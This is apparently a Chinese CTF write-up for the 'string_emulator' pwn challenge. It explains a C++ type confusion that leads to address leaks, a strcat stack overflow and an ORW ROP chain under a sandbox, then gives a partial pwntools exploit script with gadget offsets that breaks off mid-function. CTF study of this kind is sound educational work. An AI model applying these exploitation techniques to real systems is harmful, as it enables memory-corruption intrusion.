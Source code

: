 ```python

```

![image-20231001230812879](D:\ctf-competition\2023华为杯\2023华为WriteUp\image-20231001230812879.png)

# string_emulator

这题的考点是`c++`的类型混淆，但是`c++`的反汇编代码简直难看的不行，通过反复测试发现在功能`add`获取堆块时，可以选择类型，但是这两种类型获取的堆块，在`edit`功能中都用相同的方法进行处理，这就导致了类型混淆的漏洞了。在选择类型1进行新建堆块后，在进行`edit`功能可以直接修改需要`show`的地址，因此造成任意地址的泄露，这里会对第一个整型值做值校验，这里只需要设置为`0xffffffff`即可，因为存在整型溢出的漏洞。接着需要将堆块放到`unsortbin`上使得`bk`指针存在`libc`的地址，即可泄露`libc`地址，然后则是通过`libc`地址泄露栈地址与堆块的地址，栈地址通过`environ`变量泄露，而该变量的后方有`brk`函数所定义的堆块末尾地址。

接着是在`show`功能中存在`strcat`函数，这个函数所拼接的地址刚好是可以任意篡改用于泄露的地址，因此在泄露完上述地址后可以定义一个堆块，并且将该堆块地址用于`strcat`函数的拼接，从而造成栈溢出漏洞。这里需要注意几个点

- 程序不能输入截断符号并开启了沙盒，在使用`orw`时会受到限制，因此需要先通过`gets`函数对栈上进行输入`orw`的`gadget`
- 由于`cin`函数会将回车符作为一个输入的结束，并且`gets`函数的地址末尾恰好为`0x20`，但是通过调试可知在`gets`函数的上方`nop`指令，因此我们将`gets`函数的地址减一不会影响`gets`函数的调用
- `gets`函数有个特点，它会校验缓冲区内是否为回车符，若是有回车符会中断输入，感兴趣大家可以进行调试。因此在进行`cin`输入时使用空格作为分隔符
- 由于我们已经泄露的栈地址了，因此在调用`gets`函数时直接往存在`gadget`链的栈上输入即可

## exp

```python
from pwn import *

sh = process("./pwn")
#context.log_level = 'debug'
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

'''
0x000283e2 : pop eax ; ret
0x000a1101 : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x00163c1b : pop ebp ; pop ebx ; ret
0x000444c0 : pop ebp ; pop esi ; pop edi ; ret
'''
pop_ret = 0x000283e2
pop2_ret = 0x00163c1b
pop3_ret = 0x000444c0
pop4_ret = 0x000444bf

def add(choice, index, content):
	sh.recvuntil("ce:")
	sh.sendline("1")
	sh.recvuntil("pe ?")
	sh.sendline(str(choice))
	sh.recvuntil("ld")
	sh.sendline(str(index))
	sh.recvuntil("tent ?")
	sh.send(content + " ")

def show(index):
	sh.recvuntil("ce:")
	sh.sendline("3")
	sh.recvuntil("show?")
	sh.send(str(index) + " ")
	
def edit(index, content):
	sh.recvuntil("ce:")
	sh.sendline("2")
	sh.recvuntil("nge?")
	sh.sendline(str(index))
	sh.recvuntil("tent ?")
```